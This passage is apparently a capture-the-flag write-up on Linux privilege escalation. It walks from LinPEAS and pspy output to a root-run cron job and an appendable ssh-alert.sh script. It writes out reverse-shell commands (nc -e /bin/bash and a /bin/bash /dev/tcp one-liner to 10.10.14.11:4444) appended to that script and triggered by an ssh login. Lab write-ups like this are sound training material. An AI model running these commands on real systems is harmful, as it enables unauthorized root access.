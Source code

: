 ### LinePeas result analysis

- https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files  
![image](https://user-images.githubusercontent.com/96747355/167317073-13049c95-fb66-455a-991b-b4dd6046dacc.png)  
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation#systemd-path-relative-paths  
![image](https://user-images.githubusercontent.com/96747355/167317128-25467f95-3898-4c08-bfac-f2fd2cf398a6.png)  
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs  
![image](https://user-images.githubusercontent.com/96747355/167317167-4980613d-d53c-4aaa-87e6-3ceb1c7b26af.png)  
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses  
![image](https://user-images.githubusercontent.com/96747355/167317192-868ed2c8-51d1-4fb5-b88a-1dea2ec158a2.png)  
```
/home/svc_acc/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin                                                                                                                  
New path exported: /home/svc_acc/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

- We have to investigate this folder and the script `ssh-alert.sh`  
![image](https://user-images.githubusercontent.com/96747355/167317407-29fe0f28-1b59-4982-ab00-18d9799d402f.png)  
- The script sends an email when someone logs in using ssh.
- We can check the processes with pspy these are interesting and they are launched as root
```
/usr/sbin/CRON -f 
chattr -a /usr/local/sbin/ssh-alert.sh 
cp /root/scripts/ssh-alert.sh /usr/local/sbin/ssh-alert.sh 
chown svc_acc:svc_acc /usr/local/sbin/ssh-alert.sh
rm -r /home/svc_acc/app/uploads/* 
rm -r /home/svc_acc/app/misc/*
```
- So now we know that a process is using chatter to make ssh-alert appendable
- We could append the file with a malicious command and get a reverse shell this way. We would trigger it by connecting through ssh. We have to be fast though because a cron job reverts the files regularly.
- Let's launch a listener `rlwrap nc -lvp 4444`
- *Note: I first tried to append the file with nc `echo 'nc 10.10.14.11 4444 –e /bin/bash' >> ssh-alert.sh` as it was installed in the machine but the shell I caught back did not let me run commands*
- `echo '/bin/bash -i >& /dev/tcp/10.10.14.11/4444 0>&1' >> ssh-alert.sh` This one did the trick
- Then from our machine we connect through ssh
- And finally we catch a root shell and can grab the final flag!!  
![image](https://user-images.githubusercontent.com/96747355/167514748-b43c4f38-c416-4eb2-9276-4bd9f12a9401.png)  
